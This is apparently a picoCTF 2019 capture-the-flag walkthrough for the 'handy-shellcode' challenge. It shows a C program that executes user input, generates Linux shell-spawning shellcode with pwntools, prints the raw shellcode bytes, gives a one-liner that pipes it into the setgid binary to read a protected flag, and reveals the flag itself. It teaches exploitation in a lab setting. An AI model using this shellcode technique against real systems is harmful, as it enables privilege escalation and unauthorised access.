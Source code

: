 # handy-shellcode
50 points

### Description
*"This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source."*

### Solution
Here's a look at the source code provided:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

This one is actually pretty simple in execution, but we'll need to introduce a few new concepts to understand everything that is going on. We see that the program prompts the user for input, then creates a function pointer for that input and tries to execute it. If we give the program input that isn't executable, the program will run into a segmentation fault.

If we take a look at the directory that this program is in on the server, we see the flag file, but we don't have permission to read it.
```
$ cd /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb
$ ls
flag.txt  vuln  vuln.c
$ cat flag.txt 
cat: flag.txt: Permission denied
```
However, if we take a look at the permissions for the files in this directory, we can see that `flag.txt` is in the same permissions group as `vuln`. 
```
$ ls -l
total 656
-r--r----- 1 hacksports handy-shellcode_6     39 Sep 28  2019 flag.txt
-rwxr-sr-x 1 hacksports handy-shellcode_6 661832 Sep 28  2019 vuln
-rw-rw-r-- 1 hacksports hacksports           624 Sep 28  2019 vuln.c
```

If you aren't familiar with how file permissions work in UNIX filesystems, you can learn more about it [here](https://www.tutorialspoint.com/unix/unix-file-permission.htm).

So, we should take a hint from the problem. It asks if we can spawn a shell through the program to read `flag.txt`. Well, this is exactly what we are going to do.

First, we need to talk about **shellcode**. If you aren't familiar with the concept, a piece of shellcode is typically a malicious portion of code that a hacker wants to use as the [payload](https://en.wikipedia.org/wiki/Payload_(computing)) in exploiting a vulnerability.

In simple terms, when a C program is compiled, it is translated into binary machine code that the computer can actually understand. However, there is an intermediary step where the C source code is translated by the compiler into [assembly code](https://en.wikipedia.org/wiki/Assembly_language), which is then translated by an *assembler* into executable machine code.

We can actually write assembly ourselves that can be translated into hexadecimal, which will make it a valid, executable piece of code. This is the process by which shellcode is usually created. You can find a great introduction to shellcode [here](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf) if you want to learn more about it.

As hackers, this problem makes our job **very** easy. Usually, we have to find creative ways to execute our payloads, but this program will do it for us! All we have to do is find the right shellcode.

There are a lot of great shellcode databases online, but I think the best is [shell-storm](http://shell-storm.org/shellcode/).

However, if you've checked out any of my other picoCTF walkthroughs, you may have learned that I like to do stuff with python when I can. For this problem, we're going to use one of the most useful python modules available to hackers: [pwntools](http://docs.pwntools.com/en/stable/).

The `pwn.shellcraft` module has a lot of useful code for generating shellcode, and it can be used to generate shellcode for many different operating systems and architectures.
```python
from pwn import shellcraft

print(shellcraft.linux.sh())
```

The code above will print out the actual *assembly* instructions for generating a shell on a linux operating system. Remember, we don't want assembly code, but rather *shellcode*.

We can use `pwn.asm` to convert assembly instructions to machine code:
```python
from pwn import shellcraft, asm

print(asm(shellcraft.linux.sh()))
```

Here's something like what you should've gotten.
<details>
  <summary>Shellcode:</summary>
  b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
</details>

If your output had a lot of random characters that don't look like this, don't worry, that just means python is printing out the actual bytes rather than the hex values. This is just dependent on your Python version. 

Speaking of Python version, you'll actually want to use Python2 for this because we want the actual bytes to be printed out and not the hex values. The reason the output is different between versions is because of a difference in how byte strings are handled and encoded in Python2 vs Python3. Just know that Python2 is typically preferred when trying to generate shellcode like this.

Using Python2 (which you may have been using before), your shellcode should look like this.
<details>
  <summary>Shellcode:</summary>
  jhh///sh/bin��h�4$ri1�QjY�Q��1�j
  
                                X̀
</details>

We now want this shellcode to be fed in as the input to `vuln`. If we are in the directory with `vuln` and `flag.txt` on the server, we can execute the python code above in one command using the python `-c` flag. We can then pipe this into `vuln`.
```
$ python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))" | ./vuln
```

However, you'll notice that you can't actually use the shell that spawns, you're immediately brought back to your normal command-line prompt. This is a common issue we run into in situations like this. What's happening is that python gives the input to `vuln`, then python stops executing. This is bad because all of the input to `vuln` is going through python. So, when python stops executing, `vuln` stops trying to get input, even if the shell is spawned.

This is easy to fix. We just need to append another command that executes *after* the python command, but prompts for input. This will give us an input stream to be able to interact will the shell that we spawned.

The best command for this is `cat`, since when it is used with no arguments, it just waits for user input and then repeats it as output.
```
$ (python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln
```

While you can't see the prompt, we are now in the shell that we spawned. We can use `id` to see that we now have the same group permissions as `flag.txt`. So, we can finally read it.
```
$ (python2 -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln 
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
id
uid=49513(flow2) gid=8875(handy-shellcode_6) groups=8875(handy-shellcode_6),1002(competitors),49514(flow2)
ls
flag.txt  vuln	vuln.c
cat flag.txt
```
**NOTE:** This won't work if you use Python3 because Python will pass `vuln` the hex values of the shellcode rather than the actual bytes. Make sure you run this using Python2.

And this should get you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
